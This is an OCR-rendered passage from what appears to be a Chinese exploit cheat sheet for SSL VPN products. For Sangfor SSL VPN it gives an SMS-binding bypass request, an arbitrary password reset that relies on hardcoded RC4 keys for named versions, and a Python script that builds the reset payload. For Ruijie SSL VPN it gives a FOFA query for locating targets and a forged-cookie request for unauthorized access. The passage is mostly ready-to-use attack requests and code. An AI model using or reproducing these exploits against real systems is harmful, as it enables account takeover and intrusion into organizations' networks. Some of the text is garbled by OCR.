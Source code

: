 ```
/por/login_auth.csp?apiversion=1sangfor/cgi-bin/login.cgi?rnd=
```

##### 短信绕过

```
POST https://ip/por/changetelnum.csp?apiversion=1

newtel=TARGET_PHONE&sessReq=clusterd&username=TARGET_USERNAME&grpid=0&sessid=0&ip=127.0.0.1
```

##### 任意密码重置

加密算法使用了默认的key，攻击者构利用key构造重置密码数据包从而修改任意用户的密码。利用需要登陆账号。

- M7.6.6R1版本key为20181118
- M7.6.1key为20100720

```
POST /por/changepwd.csp

sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN(脚本计算后结果)
```

```python
from Crypto.Cipher import ARC4
from binascii import a2b_hex

def myRC4(data, key):
    rc41= ARC4.new(key)
    encrypted =rc41.encrypt(data)
    return encrypted. encode('hex')

def rc4_decrpt_hex(data, key):
    rc41= ARC4. new(key)
    return rc41. decrypt(a2b_hex(data))

key= '20100720'
data = r',username-TARGET_USERNAME, ip-127.0.0.1,grpid-1, pripsw-suiyi , newpsw=TARGET PASSWORD,'
print myRC4(data, key)
```

#### 锐捷 SSL VPN

FOFA：

```
icon_hash="884334722" || title="Ruijie SSL VPN"
```

##### 越权访问

- UserName 参数为已知用户名

```
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Cookie: UserName=admin; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```
